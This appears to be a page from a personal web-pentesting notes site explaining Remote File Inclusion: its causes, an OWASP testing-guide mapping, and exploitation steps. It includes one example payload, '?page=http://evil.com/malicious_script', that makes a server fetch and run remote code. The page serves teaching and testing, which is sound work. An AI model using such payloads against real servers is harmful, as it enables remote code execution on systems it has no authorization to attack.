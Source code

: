 ```yaml
---
title: RFI attack - Remote File Inclusion
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting
---
```

# RFI attack - Remote File Inclusion

??? quote "OWASP"
	[OWASP Web Security Testing Guide 4.2](../OWASP/index.md) > 5. Authorization Testing > 5.1. Testing Directory Traversal File Include

	|ID|Link to Hackinglife|Link to OWASP|Description|
	|:---|:---|:---|:---|
	|5.1|[WSTG-ATHZ-01](../OWASP/WSTG-ATHZ-01.md)|[Testing Directory Traversal File Include](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/01-Testing_Directory_Traversal_File_Include)|- Identify injection points that pertain to path traversal.  - Assess bypassing techniques and identify the extent of path traversal (dot-dot-slash attack, Local/Remote file inclusion)|


A Remote File Inclusion (RFI) vulnerability is a type of security flaw found in web applications that allow an attacker to include and execute remote files on a web server. 

This vulnerability arises due to improper handling of user-supplied input within the context of file inclusion operations. 

## Causes

- Insufficient Input Validation: The web application may not validate or filter user input, allowing attackers to inject malicious data.  
- *Lack of Proper Sanitization*: Even if input is validated, the application may not adequately sanitize the input before using it in file inclusion operations.
- *Using User Input in File Paths*: Applications that dynamically include files based on user input are at high risk if they don't carefully validate and control that input.
- *Failure to Implement Security Controls*: Developers might overlook security best practices, such as setting proper file permissions or using security mechanisms like web application firewalls (WAFs).

## How to exploit it?

Identify Vulnerable Input: The attacker identifies a web application that accepts user input and uses it in a file inclusion operation, typically in the form of a URL parameter or a POST request parameter. 

Inject Malicious Payload: The attacker injects a malicious file path or URL into the vulnerable parameter. For example, they might replace a legitimate parameter like ?page=about.php with ?page=http://evil.com/malicious_script.

Server Executes Malicious Code: When the web application processes the attacker's input, it dynamically includes the remote file or URL. This can lead to remote code execution on the web server, as the malicious code in the included file is executed in the server's context.
